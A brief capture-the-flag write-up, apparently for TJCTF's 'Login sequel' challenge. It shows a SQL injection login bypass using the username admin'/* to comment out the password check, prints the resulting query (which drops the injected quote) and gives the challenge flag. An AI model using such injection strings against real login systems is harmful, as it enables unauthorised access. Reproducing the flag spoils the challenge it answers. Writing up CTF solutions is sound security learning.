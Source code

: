 # Login sequel

Set username to "admin'/\*" and the password to whatever this is so the command executed is

```sql
"SELECT username, password FROM `userandpassword` WHERE username='admin/*' AND password='<md5 HASH object @ 0x00000151246A95F8>'"
/* is a comment so everything after that is ignored.
```

EZ

## flag is tjctf{W0w\_wHa1\_a\_SqL1\_exPeRt!}

